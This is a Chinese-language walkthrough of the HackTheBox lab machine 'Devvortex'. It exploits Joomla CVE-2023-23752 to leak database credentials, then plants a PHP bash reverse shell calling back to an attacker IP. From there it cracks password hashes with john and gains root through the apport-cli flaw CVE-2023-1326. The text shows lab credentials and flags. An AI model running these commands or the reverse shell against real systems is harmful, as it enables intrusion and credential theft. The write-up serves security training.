Devvortex

使用nmap扫描服务器

```
nmap -sV -sC  10.10.11.242
```


使用wfuzz进行子域名爆破

```
wfuzz -c -w  /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://devvortex.htb" -H "Host:FUZZ.devvortex.htb"
```



爆破出dev的子域名，将子域名加入hosts

使用gobuster对dev.devvortex.htb进行目录扫描

```
gobuster dir -u http://dev.devvortex.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -t 200
```



扫描出administrator的目录发现登录页面



扫描出README.txt，发现joomla版本为4.2



发现是joomla cms在网上发现有专门的漏洞扫描工具：joomscan

下载

```
apt install joomscan
```

使用joomscan进行扫描

```
joomscan -url http://dev.devvortex.htb
```



扫描出joomla的版本为4.2.6 并且扫描出部分目录

通过搜索joomla 4.2.6版本爆出有未授权访问-CVE-2023-23752漏洞

影响版本

```
4.0.0 <= Joomla <= 4.2.7
```

构造路由 `/api/index.php/v1/config/application?public=true`

返回数据库信息




用户名：lewis

密码：P4ntherg0t1n5r3c0n##

使用这个密码在登录页面成功登录后台




在页面中写入一句话木马反弹nc

```
system('bash -c "bash -i >& /dev/tcp/10.10.14.75/5566 0>&1"');
```



在攻击机监听5566端口

```
nc -lvc 5566
```

访问/templates/cassiopeia/offline.php文件nc反弹成功



使用python 生成伪终端实用程序

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

登录mysql

``` 
mysql -u lewis -p joomla --password=P4ntherg0t1n5r3c0n##
```

查询表单

```
show tables;
```



查询sd4fg_users表

```
select * form sd4fg_users
```




获取到hash值

```
lewis
$2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u 
logan
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 
```

使用john进行破解

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash 
```



爆破出密码：tequieromucho

使用密码ssh登录上去

```
ssh logan@10.10.11.242
```

查看flag 25900af2d9a5e5e8143ee8422e343c27



#### 提权

使用sudo -l 查看使用可以用root访问权限运行任何脚本



发现这个程序可以使用所有权限/usr/bin/apport-cli

搜索apport时发现新爆出漏洞CVE-2023-1326

POC

```
sudo /usr/bin/apport-cli -c /var/crash/_usr_bin_sleep.1000.crash
输入V
再输入!/bin/bash
```




已经提权到root，查看flag 25900af2d9a5e5e8143ee8422e343c27



妈的哪个傻逼flag改了 

后补
